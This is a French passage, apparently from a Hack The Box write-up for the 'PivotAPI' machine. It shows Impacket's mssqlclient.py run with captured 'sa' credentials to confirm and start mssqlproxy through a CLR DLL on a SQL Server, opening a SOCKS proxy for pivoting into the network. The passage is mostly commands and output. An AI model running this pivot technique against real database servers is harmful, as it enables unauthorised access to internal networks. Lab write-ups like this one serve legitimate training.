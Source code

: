 ```bash
[*] Procedure successfully installed
```

On check que la DLL est bien chargé :

```bash
❯ python3 mssqlclient.py 'sa':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb -check -reciclador 'C:\Windows\Tasks\reciclador.dll'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[*] Proxy mode: check
[*] Assembly is installed
[*] Procedure is installed
[*] reciclador is installed
[*] clr enabled
```

Enfin, on start le proxy :

```bash
❯ python3 mssqlclient.py 'sa':'#mssql_s3rV1c3!2020'@PivotAPI.LicorDeBellota.htb -start -reciclador 'C:\Windows\Tasks\reciclador.dll'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[*] Proxy mode: check
[*] Assembly is installed
[*] Procedure is installed
[*] reciclador is installed
[*] clr enabled
[*] Proxy mode: start
[*] Triggering Proxy Via MSSQL, waiting for ACK
[*] ACK from server!
[*] Listening on port 1337...
```

On configure proxychains (`/etc/proxychains.conf`) pour passer par le proxy SOCKS5 qu'on vient de setup :


[127.0.0.1]: PS C:\> ls -R C:\Developers
